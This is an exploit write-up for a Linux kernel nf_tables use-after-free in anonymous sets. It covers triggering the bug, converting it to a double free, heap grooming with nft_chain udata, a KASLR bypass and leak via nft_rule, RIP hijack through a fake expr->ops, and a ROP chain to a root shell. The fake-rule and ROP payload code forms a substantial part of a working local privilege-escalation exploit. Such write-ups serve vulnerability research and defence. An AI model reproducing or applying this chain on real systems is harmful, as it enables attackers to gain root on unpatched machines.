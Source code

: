 # Attacking Objects

- **Information leak/KASLR bypass**: nft_chain + nft_rule/nft_expr [dyn-kmalloc-256]
- **RIP control**: nft_rule/nft_expr (RIP hijacked via expr->deactivate()) [dyn-kmalloc-256]

# Overview

This exploit is written based on https://www.openwall.com/lists/oss-security/2023/05/15/5. The exploit strategy is different from the original code.

# Triggering Vulnerability

The vulnerability is caused by access to an anonymous nft_set that is being deleted.

```c
void nf_tables_deactivate_set(const struct nft_ctx *ctx, struct nft_set *set,
			      struct nft_set_binding *binding,
			      enum nft_trans_phase phase)
{
	switch (phase) {
	case NFT_TRANS_PREPARE:     // [1]
		set->use--;
		return;
	case NFT_TRANS_ABORT:
	case NFT_TRANS_RELEASE:
		set->use--;
		fallthrough;
	default:
		nf_tables_unbind_set(ctx, set, binding,
				     phase == NFT_TRANS_COMMIT);
	}
}
EXPORT_SYMBOL_GPL(nf_tables_deactivate_set);

void nf_tables_destroy_set(const struct nft_ctx *ctx, struct nft_set *set)
{
	if (list_empty(&set->bindings) && nft_set_is_anonymous(set))
		nft_set_destroy(ctx, set);
}
EXPORT_SYMBOL_GPL(nf_tables_destroy_set);
```

Because the `nf_tables_deactivate_set` function does not change the set to the inactive state when an anonymous set is deleted, it can be accessed after the set is destroyed by the `nf_tables_destroy_set` function [1].

To trigger the vulnerability, create an anonymous nft_set is and a rule with a lookup expr referencing it. The UAF is then triggered by deleting the rule and then deleting the set or adding/deleting set elements of the set. Note that `nf_tables_deactivate_set` is called while deleting the rule with lookup expr.

# From UAF to double free

```c
static void nft_set_destroy(const struct nft_ctx *ctx, struct nft_set *set)
{
	int i;

	if (WARN_ON(set->use > 0))
		return;

	for (i = 0; i < set->num_exprs; i++)
		nft_expr_destroy(ctx, set->exprs[i]);

	set->ops->destroy(set);
	nft_set_catchall_destroy(ctx, set);
	kfree(set->name);           // [2]
	kvfree(set);
}
```

When the nft_lookup expr is destroyed, the `nft_set_destroy` function is called and free `set->name`[2]. When the set is destroyed again, the `nft_set_destroy` function is called one more time on this nft_set, resulting in a double free. In between the two calls to `nft_set_destroy`, I create another target nft_set to make this nft_set free. At this time, I make the length of the set's name in between 193-256 to place it to dyn-kmalloc-256.

```c
struct nft_chain {
	struct nft_rule_blob		__rcu *blob_gen_0;
	struct nft_rule_blob		__rcu *blob_gen_1;
	struct list_head		rules;
	struct list_head		list;
	struct rhlist_head		rhlhead;
	struct nft_table		*table;
	u64				handle;
	u32				use;
	u8				flags:5,
					bound:1,
					genmask:2;
	char				*name;
	u16				udlen;
	u8				*udata;         // [3]

	/* Only used during control plane commit phase: */
	struct nft_rule_blob		*blob_next;
};
```

Then, I utilized the udata field [3] of the nft_chain structure for information leak and RIP control. To do this, the udata of nft_chain is allocated in dyn-kmalloc-256 and overlaps with set->name of the target set. 

```c
static int nf_tables_addchain(struct nft_ctx *ctx, u8 family, u8 genmask,
			      u8 policy, u32 flags,
			      struct netlink_ext_ack *extack)
    ...

if (nla[NFTA_CHAIN_USERDATA]) {
		chain->udata = nla_memdup(nla[NFTA_CHAIN_USERDATA], GFP_KERNEL_ACCOUNT);    // [4]
		if (chain->udata == NULL) {
			err = -ENOMEM;
			goto err_destroy_chain;
		}
		chain->udlen = nla_len(nla[NFTA_CHAIN_USERDATA]);
	}
```

The udata of nft_chain is input from the user in the `nf_tables_addchain` function [4].

# KASLR Bypass and Information Leak

To bypass KASLR, I used the `struct nft_rule`. The nft_rule contains `struct nft_expr` [5], which stores the address of the `struct nft_expr_ops` [6]. Since address of `nft_expr_ops` is a kernel address, we can bypass KASLR by read it. We can also get the heap address by reading the list in the struct nft_rule. This address will be used later to create fake ops and store the ROP payload. In this exploit, I used `nft_counter_ops`.

```c
struct nft_rule {
	struct list_head		list;
	u64				handle:42,
					genmask:2,
					dlen:12,
					udata:1;
	unsigned char			data[]
		__attribute__((aligned(__alignof__(struct nft_expr))));     // [5]
};
```

```c
struct nft_expr {
	const struct nft_expr_ops	*ops;                   // [6]
	unsigned char			data[]
		__attribute__((aligned(__alignof__(u64))));
};
```

# RIP Control

Create a fake rule to control the RIP. Since `expr->ops->deactivate` is called in the `nft_rule_expr_deactivate` function when deleting a rule [7], we can control the RIP by modifying with the address of the ops.

```c
static void nft_rule_expr_deactivate(const struct nft_ctx *ctx,
				     struct nft_rule *rule,
				     enum nft_trans_phase phase)
{
	struct nft_expr *expr;

	expr = nft_expr_first(rule);
	while (nft_expr_more(rule, expr)) {
		if (expr->ops->deactivate)
			expr->ops->deactivate(ctx, expr, phase);        // [7]

		expr = nft_expr_next(expr);
	}
}
```

To do this, we free the rule we sprayed for the leak and spray a fake rule with chain->udata at this location.

```c
    struct fake_nft_rule * payload = (struct fake_nft_rule *) data;

    payload->dlen = 8;
    payload->genmask = 0;
    payload->handle = 0xffff;
    payload->list.prev = (void*) 0;
    payload->list.next = (void*) 0;

    *((uint64_t*)data + (sizeof(struct fake_nft_rule) / sizeof(uint64_t*))) = heap_addr;    // expr->ops

```

I sprayed a fake rule with `dlen` greater than `0` and `handle` `0xffff`. And when I delete the rule with handle `0xffff`, the RIP is controlled.

# Post-RIP

I make the following ROP payload to get the shell. For simplicity, I utilized the Telefork technique suggested by Kyle (https://blog.kylebot.net/2022/10/16/CVE-2022-1786/).

```c
void make_payload_rop(uint64_t* data){
    int i = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = kbase + PUSH_RAX_POP_RSP;       // expr->ops->deactivate()

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    data[i++] = kbase + VFORK;
    data[i++] = kbase + DELAY;
}
```

However, when using the `fork` system call, a lot of double fault exceptions occurred, so we used `vfork`. Since `vfork` also causes a double fault exception, it is better to use the `iret` gadget to return to the userspace to increase the reliability of the exploit.